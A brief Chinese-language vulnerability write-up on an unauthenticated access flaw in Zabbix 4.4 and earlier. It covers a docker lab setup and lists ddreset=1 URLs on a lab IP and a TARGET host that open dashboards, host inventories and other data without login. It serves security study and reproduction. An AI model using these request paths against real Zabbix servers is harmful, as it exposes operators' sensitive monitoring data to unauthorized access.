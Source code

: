# Zabbix未授权访问漏洞

## 漏洞描述

Zabbix存在一个未授权访问漏洞，通过该漏洞，攻击者可以在未经授权的情况下访问Zabbix服务器上的数据，导致敏感信息泄露。

## **影响版本**

Zabbix <= 4.4

## 环境搭建

```
docker run -p 10051:10051  -p 80:80 zabbix/zabbix-appliance:ubuntu-4.0.12
```

## 漏洞利用

访问：http://192.168.32.183/zabbix.php?action=problem.view&ddreset=1

![image-20220726150813375](../../.gitbook/assets/image-20220726150813375.png)

访问：http://192.168.32.183/overview.php?ddreset=1

![image-20220726150910028](../../.gitbook/assets/image-20220726150910028.png)

访问：http://192.168.32.183/latest.php?ddreset=1

![image-20220726150855422](../../.gitbook/assets/image-20220726150855422.png)

还有以下链接可以访问：

- https://TARGET/zabbix/zabbix.php?action=dashboard.view
- https://TARGET/zabbix/zabbix.php?action=dashboard.view&ddreset=1
- https://TARGET/zabbix/zabbix.php?action=problem.view&ddreset=1
- https://TARGET/zabbix/overview.php?ddreset=1
- https://TARGET/zabbix/zabbix.php?action=web.view&ddreset=1
- https://TARGET/zabbix/latest.php?ddreset=1
- https://TARGET/zabbix/charts.php?ddreset=1
- https://TARGET/zabbix/screens.php?ddreset=1
  https://TARGET/zabbix/zabbix.php?action=map.view&ddreset=1
- https://TARGET/zabbix/srv_status.php?ddreset=1
- https://TARGET/zabbix/hostinventoriesoverview.php?ddreset=1
- https://TARGET/zabbix/hostinventories.php?ddreset=1
- https://TARGET/zabbix/report2.php?ddreset=1
- https://TARGET/zabbix/toptriggers.php?ddreset=1
- https://TARGET/zabbix/zabbix.php?action=dashboard.list
- https://TARGET/zabbix/zabbix.php?action=dashboard.view&dashboardid=1


